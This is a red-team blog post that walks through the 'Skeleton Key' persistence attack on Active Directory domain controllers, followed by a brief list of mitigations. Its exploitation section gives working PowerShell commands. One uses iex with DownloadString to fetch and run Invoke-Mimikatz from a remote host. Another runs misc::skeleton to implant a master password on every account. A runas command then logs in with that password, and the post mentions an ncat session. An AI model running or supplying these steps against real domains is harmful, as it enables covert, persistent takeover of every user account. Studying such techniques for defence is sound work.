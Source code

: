 ```yaml
---
title: "Domain Persistence With Skeleton Key technique"
date: 2024-02-14 00:00:00 +0000
categories: 
  - Persistence Domain 
  - Active Directory
  - RedTeam
---
```



In this article, I will explain the third technique for establishing persistence on the Domain Controller
# Skeleton Key Attack
## What is the Skeleton Key technique

The Skeleton Key technique involves injecting a backdoor password into the authentication process of Microsoft Windows Active Directory domain controllers. This backdoor password, typically generated by tools like Mimikatz, allows an attacker to bypass normal authentication mechanisms, effectively granting them access to any account within the Active Directory. The original passwords of the affected accounts remain intact and functional, while the backdoor password provides an additional means of unauthorized access for the attacker.
## Or In short
The idea behind this technique is to convert all passwords of users embedded in the Active Directory into another password, which is Mimikatz, while keeping their original passwords active.

### Prerequisites

	 - attacker having obtained Domain Admin rights. 
	 - Mimikatz is then executed on a Domain Controller.
	 - rebooting a Domain Controller will eliminate the malware.

I will do this attack from a Windows machine 

# Exploitation

we need upload Mimikatz in windows machine you can use Mimikatz.exe or Mimikatz.ps1 but i use Mimikatz.ps1

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-1.png)](https://r00tven0m.github.io/)

Now I will execute the Mimikatz tool using this command:

```powershell
 iex(New-Object Net.WebClient).DownloadString('http://192.168.56.1/Invoke-Mimikatz.ps1')
```
[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-2.png)](https://r00tven0m.github.io/)
After that, we execute  this command:

```powershell
Invoke-Mimikatz -Command '"misc::skeleton"'
```
[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-3.png)](https://r00tven0m.github.io/)

Now, a password has been added to each user, which is "mimikatz", while ensuring the effectiveness of their previous passwords.
Yes, with the Skeleton Key technique implemented, you can access a PowerShell session for the user `newadmin` for example, who is a member of the Domain Admins group, using the "mimikatz" password.

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-4.png)](https://r00tven0m.github.io/)

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-5.png)](https://r00tven0m.github.io/)

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-7.png)](https://r00tven0m.github.io/)

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-6.png)](https://r00tven0m.github.io/)

If the Skeleton Key technique has been successfully applied and a backdoor password like `mimikatz` has been added to all user accounts in the Active Directory, including `newadmin`, then you can indeed use `runas` to execute a PowerShell session with the privileges of the `newadmin` user or any other user in the Active Directory.

Here's an example command to run a PowerShell session with the newadmin user's privileges:

```powershell
runas /user:cbank\newadmin "powershell.exe"
```

# Another Way if you need get ncat session 

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-8.png)](https://r00tven0m.github.io/)

# Some Mitigating Skeleton Key

1- `Monitor and Analyze Active Directory Logs`: Monitor Active Directory logs for suspicious activities, such as unusual login attempts, privilege escalations, or changes to user accounts. Analyzing these logs can help detect and respond to potential Skeleton Key attacks.

2- `Use Endpoint Detection and Response (EDR) Solutions`: Deploy endpoint detection and response solutions that can detect and respond to suspicious activities on endpoints, including attempts to execute Mimikatz or other malicious tools.

3 - Run lsass.exe as a protected process, it forces an attacker to load a kernel mode drive


We have reached the  end of the article.
